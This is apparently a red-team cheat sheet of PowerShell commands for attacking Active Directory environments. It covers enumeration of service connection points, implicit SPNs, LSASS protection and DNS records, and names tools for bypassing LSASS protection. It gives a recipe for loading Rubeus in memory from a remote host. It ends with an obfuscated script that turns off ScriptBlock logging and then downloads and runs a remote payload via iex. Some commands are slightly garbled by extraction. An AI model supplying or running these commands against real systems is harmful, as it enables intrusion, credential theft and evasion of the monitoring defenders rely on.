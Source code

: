 - Enumerate Service Connection Points (SCPs) - hosted services in the environment
	- `(Get-AdObject -LdapFilter '(serviceBindingInformation=*)' -Properties *).serviceBindingInformation`

- Enumerate implicit SPNs
	- `(Get-Adobject -SearchBase 'CN=Windows NT, CN=Services, CN=Configuration, DC=ad, DC=local" - LdapFilter 'CN=Directory Service' - Properties *). SPNMappings`
		- "host=" signifies that when an object has at least one explicit HOST SPN set, it will also implicitly have all of the SPNs contained here

- LSASS as a protected process
	- Enumerate
		- `Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"`
	- Bypass
		- PPLDump
		- Nanodump

- Execute .NET assembly in memory without touching disk, using reflection:
	1. `$d = (New-Object http://System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')`
	2. `$a = [System.Reflection.Assembly]::Load($d)`
	3. `[Rubeus.Program]::Main("triage".Split())`

- Target acquisition
	- Local DNS cache
		- `ipconfig /displaydns`
		- `Get-DNSClientCache`
	- Query network DNS server for entries
		- `Get-DnsRecord -RecordType A -ZoneName FQDN -Server <server hostname>`
			- Output to a file: `Get-DnsRecord -RecordType A -ZoneName FQDN -Server <server hostname> | % {Add-Content -Value $_ -Path records.txt}`
		- `Get-CimInstance -Namespace Root\MicrosoftDNS -Query "SELECT * FROM MicrosoftDNS_AType WHERE ContainerName='rlyeh.local'"`
	- mDNS
		- Sapito (see References/Repos)

- ScriptBlock logging bypass
```PowerShell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
iex (New-Object Net.WebClient).downloadstring("https://myserver/mypayload.ps1")
```